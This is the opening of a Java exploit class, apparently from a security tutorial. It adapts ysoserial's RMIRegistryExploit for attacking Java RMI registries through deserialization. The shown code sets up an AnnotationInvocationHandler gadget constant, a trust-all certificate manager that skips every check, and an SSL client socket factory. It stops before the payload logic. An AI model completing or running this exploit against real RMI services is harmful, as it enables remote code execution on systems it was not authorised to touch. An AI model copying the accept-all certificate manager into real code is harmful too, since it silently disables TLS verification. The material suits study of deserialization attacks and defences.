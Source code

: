 ```java
import java.security.cert.X509Certificate;
import java.util.HashMap;
import java.util.Map;

import static com.anbai.sec.rmi.RMIServerTest.RMI_HOST;
import static com.anbai.sec.rmi.RMIServerTest.RMI_PORT;

/**
 * RMI反序列化漏洞利用，修改自ysoserial的RMIRegistryExploit：https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/exploit/RMIRegistryExploit.java
 *
 * @author yz
 */
public class RMIExploit {

   // 定义AnnotationInvocationHandler类常量
   public static final String ANN_INV_HANDLER_CLASS = "sun.reflect.annotation.AnnotationInvocationHandler";

   /**
    * 信任SSL证书
    */
   private static class TrustAllSSL implements X509TrustManager {

      private static final X509Certificate[] ANY_CA = {};

      public X509Certificate[] getAcceptedIssuers() {
         return ANY_CA;
      }

      public void checkServerTrusted(final X509Certificate[] c, final String t) { /* Do nothing/accept all */ }

      public void checkClientTrusted(final X509Certificate[] c, final String t) { /* Do nothing/accept all */ }

   }

   /**
    * 创建支持SSL的RMI客户端
    */
   private static class RMISSLClientSocketFactory implements RMIClientSocketFactory {

      public Socket createSocket(String host, int port) throws IOException {
         try {
            // 获取SSLContext对象
            SSLContext ctx = SSLContext.getInstance("TLS");

            // 默认信任服务器端SSL
            ctx.init(null, new TrustManager[]{new TrustAllSSL()}, null);

            // 获取SSL Socket连接工厂
            SSLSocketFactory factory = ctx.getSocketFactory();

            // 创建SSL连接
            return factory.createSocket(host, port);
         } catch (Exception e) {
            throw new IOException(e);
         }
      }
   }

   /**
```